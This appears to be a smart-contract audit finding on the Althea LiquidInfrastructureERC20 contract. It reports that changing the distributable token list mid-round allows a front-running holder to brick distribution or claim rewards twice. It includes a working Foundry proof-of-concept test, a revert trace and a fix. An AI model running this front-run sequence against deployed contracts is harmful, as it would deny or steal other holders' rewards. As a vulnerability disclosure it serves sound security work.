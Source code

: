 # Distribution can be bricked, and double claims by a few holders are possible when owner calls LiquidInfrastructureERC20::setDistributableERC20s
## Impact
Double claim, DOS by bricking distribution, few holders can lose some rewards due to missing validation of distribution timing when owner calling LiquidInfrastructureERC20::setDistributableERC20s.
```solidity
    function setDistributableERC20s(
        address[] memory _distributableERC20s
    ) public onlyOwner {
        distributableERC20s = _distributableERC20s;
    }
```
This issue will be impact on following ways :

when a new token is accepted by any nft it should be added as a desirable token, or a new managerNFT with a new token, then also LiquidInfrastructureERC20::setDistributableERC20s  has to be called to distribute the rewards.
so when owner calls LiquidInfrastructureERC20::setDistributableERC20s which adds a new token as desired token,

Bricking distrubution to holders: Check the POC for proof
     when a new token is added, we can expect revert when
    - the number of desirable tokens length array is increased
    - an attacker can frontrun and distribute to only one holder , so erc20EntitlementPerUnit is now  changed
    - Now the actual owner tx is processed, which increases/decreases the size of distributableERC20s array.
    - But now distribution is not possible because the Out of Bound revert on the distribution function because distributableERC20s array is changed, but erc20EntitlementPerUnit array size is same before the distributableERC20s array is modified.
```solidity
            for (uint j = 0; j < distributableERC20s.length; j++) {
                uint256 entitlement = erc20EntitlementPerUnit[j] *  this.balanceOf(recipient);
                if (IERC20(distributableERC20s[j]).transfer(recipient, entitlement)) {
                    receipts[j] = entitlement;
                }
            }
```

Double claim by a holder:  so some holder can DOS by
    - A last holder of the 10 holders array frontrun  this owner tx (setDistributableERC20s) and calls LiquidInfrastructureERC20::distribute with 90% of the holders count as params, so all the rewards of old desirable tokens will be distributed to 9 holders.
    - Now after the owners action, backrun it to distribute to the last holder, which will also receive new token as rewards.
    - The previous holders can also claim their share in the next distribution round, but the last holder also can claim which makes double claim possible, which takes a cut from all other holders.

if owner calls LiquidInfrastructureERC20::setDistributableERC20s which removes some token, then any token balance in the contract will be lost until the owner re-adds the token, and it can be distributed again.

All the issues can be countered if the LiquidInfrastructureERC20::setDistributableERC20s is validated to make changes happen only after any potential distributions

## Proof of Concept
The logs of the POC shows the revert Index out of bounds
```solidity
    ├─ [24677] LiquidInfrastructureERC20::distribute(1)
    │   ├─ [624] LiquidInfrastructureERC20::balanceOf(0x0000000000000000000000000000000000000002) [staticcall]
    │   │   └─ ← 100000000000000000000 [1e20]
    │   ├─ [20123] ERC20::transfer(0x0000000000000000000000000000000000000002, 500000000000000000000 [5e20])
    │   │   ├─ emit Transfer(from: LiquidInfrastructureERC20: [0x5991A2dF15A8F6A256D3Ec51E99254Cd3fb576A9], to: 0x0000000000000000000000000000000000000002, value: 500000000000000000000 [5e20])
    │   │   └─ ← true
    │   ├─ [624] LiquidInfrastructureERC20::balanceOf(0x0000000000000000000000000000000000000002) [staticcall]
    │   │   └─ ← 100000000000000000000 [1e20]
    │   └─ ← "Index out of bounds"
    └─ ← "Index out of bounds"
```
First run forge init --force then run forge i openzeppelin/openzeppelin-contracts@v4.3.1 and modify foundry.toml file into below
```solidity
[profile.default]
- src = "contracts"
+ src = "src"
out = "out"
libs = ["lib"]
```
Then copy the below POC into test/Test.t.sol and run forge t --mt test_POC -vvvv
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.12;


import {Test, console2} from "forge-std/Test.sol";
import {LiquidInfrastructureERC20} from "../contracts/LiquidInfrastructureERC20.sol";
import {LiquidInfrastructureNFT} from "../contracts/LiquidInfrastructureNFT.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";


contract AltheaTest is Test {
    function setUp() public {}


    function test_POC() public {
        // setup
        LiquidInfrastructureNFT nft = new LiquidInfrastructureNFT("LP");
        address[] memory newErc20s = new address[](1);
        uint256[] memory newAmounts = new uint[](1);
       
        ERC20 DAI = new ERC20("DAI", "DAI");
        ERC20 USDC = new ERC20("USDC", "USDC");


        string memory _name = "LP";
        string memory _symbol = "LP";
        uint256 _minDistributionPeriod = 5;
        address[] memory _managedNFTs = new address[](1);
        address[] memory _approvedHolders = new address[](2);
        address[] memory _distributableErc20s = new address[](1);


        _managedNFTs[0] = address(nft);
        _approvedHolders[0] = address(1);
        _approvedHolders[1] = address(2);
        _distributableErc20s[0] = address(DAI);


        newErc20s[0] = address(DAI);
        nft.setThresholds(newErc20s, newAmounts);
        LiquidInfrastructureERC20 erc = new  LiquidInfrastructureERC20(
            _name, _symbol, _managedNFTs, _approvedHolders, _minDistributionPeriod, _distributableErc20s);
        erc.mint(address(1), 100e18);
        erc.mint(address(2), 100e18);


        // issue ==  change in desirable erc20s
        _distributableErc20s = new address[](2);
        _distributableErc20s[0] = address(DAI);
        _distributableErc20s[1] = address(USDC);
        newAmounts = new uint[](2);
        newErc20s = new address[](2);
        newErc20s[0] = address(DAI);
        newErc20s[1] = address(USDC);
        nft.setThresholds(newErc20s, newAmounts);


        deal(address(DAI), address(erc), 1000e18);
        deal(address(USDC), address(erc), 1000e18);
        vm.roll(block.number + 100);


        // frontrun tx
        erc.distribute(1);


        // victim tx
        erc.setDistributableERC20s(_distributableErc20s);


        // backrun tx
        vm.roll(block.number + _minDistributionPeriod);
        vm.expectRevert(); // Index out of bounds
        erc.distribute(1);
    }


}
```

## Lines of code
https://github.com/code-423n4/2024-02-althea-liquid-infrastructure/blob/bd6ee47162368e1999a0a5b8b17b701347cf9a7d/liquid-infrastructure/contracts/LiquidInfrastructureERC20.sol#L441
https://github.com/code-423n4/2024-02-althea-liquid-infrastructure/blob/bd6ee47162368e1999a0a5b8b17b701347cf9a7d/liquid-infrastructure/contracts/LiquidInfrastructureERC20.sol#L222

## Tool used
Manual Review

## Recommended Mitigation Steps
Modify LiquidInfrastructureERC20::setDistributableERC20s to only change the desirable tokens after a potential distribution for fair reward sharing.
```solidity
    function setDistributableERC20s(
        address[] memory _distributableERC20s
    ) public onlyOwner {
+       require(!_isPastMinDistributionPeriod(), "set only just after distribution");
        distributableERC20s = _distributableERC20s;
    }
```
